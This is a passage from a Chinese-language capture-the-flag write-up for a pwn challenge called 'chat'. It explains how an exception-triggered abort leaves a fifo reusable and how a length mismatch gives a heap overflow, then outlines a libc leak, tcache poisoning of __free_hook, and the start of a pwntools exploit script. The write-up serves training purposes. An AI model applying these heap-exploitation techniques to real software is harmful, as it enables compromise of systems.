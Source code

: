 ```python
create(len(payload), payload)
protect(True, True, True)
r.interactive()
```



### chat

參考： https://hackmd.io/@moratorium08/Sk7puL84Y

漏洞的成因在於 `stoull` 在遇到無法處理的大數時會觸發 exception，讓原本持有 `StringData` 的 variant `data` 變成沒有 value 的情況 (valueless)，使得在呼叫 `send_data()` 時存取 variant 發生 `terminate called after throwing an instance of 'std::bad_variant_access'` 的 exception 而 abort，最後結束 process。

我們可以建構一個 **host** 與 **client**，讓 **host** 觸發上述的 abort，而因為不正常離開 process，使得 destructor 並不會被呼叫，因此 **host** 所建立的 fifo 仍存在並未刪掉，但這造成如果 **host** 再次嘗試連線，依舊能夠連接成功，並且輸入的 `name` 還會透過 fifo 傳給 **client**，而若此時 **client** 呼叫 `receive_data()`，讀到的就是我們能控制的 **host** 所傳遞的 `name`，依序為： **type**、**length** 以及 **b64encoded_data**，但實際上 `StringData` 的 constructor 在讀取資料時並不會只讀我們傳遞的 **length** 數量的 data 而是全讀，造成出現**傳入資料的長度** (`len(data)`) 跟**傳入的長度資料** (**length**) 不 match 的情況，因此有 heap overflow：

```c
StringData(ifstream &ifs) {
    ifs >> length; // 
    char *b64_buf = (char *)malloc( 1 + (length+2)*2);
    ifs >> b64_buf;
    char *buf = (char *)malloc(length + 1);
    Base64decode(buf, b64_buf);
    buf[length] = 0;
    str = buf;
    free(b64_buf);
}
```



有了 heap overflow 後，下一步應該就會想辦法 leak libc / heap，並透過最簡單的 tcache poisoning 來改寫 `__free_hook`，然而 leak 有兩個需要考慮的地方：

1. 不論是從 stdin 或是 pipe 讀，在結尾的地方都會加上一個 NULL byte
2. 印出來時並非使用 `write` 而是只能印出字串的 `printf("%s")`

這導致沒辦法很直觀的透過讓 string 與殘留的 libc / haep 相接，並在印出或傳送時一同被送出，即使能 encode 包含 libc / heap 位址的資料，在 decode 後依舊無法印出來。然而，由於能夠重新連接上 pipe，並且題目在一開始時會將 pipe 內的資料作為對方的名字印出，因此如果能夠透過此方式接收到 base64 encode 後的資料，這樣就能透過自己來 decode，求得在其中的 libc / heap 位址。

上述為官方提供的解法，而做法二是透過 exception handler 會使用到 0x90 大小的 chunk，其中 0x30 offset 的位址會殘留 libc address，然而如果能將我們的 chunk 透過 overflow，設計到剛好與 chunk 0x30 的地方重疊，這樣在觸發 exception 時會將 libc 位址寫進 chunk，在透過 **host** 接收 libc address，而後就透過 tcache poisoning 做 exploit 即可，exploit 如下 (在我的 exploit 中，host 與 client 的立場與上方說明相反)：

```python
#!/usr/bin/python3

from pwn import *
import sys
from base64 import b64encode, b64decode

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

def set_data(sock, t, data, wait=True):
    sock.sendlineafter('> ', '1')
    sock.sendlineafter('type[int/str] >', t)
    sock.sendlineafter('data >', data)
    if wait:
        sock.recvuntil('Menu')

def send_data(sock, wait):
    sock.sendlineafter('> ', '2')
```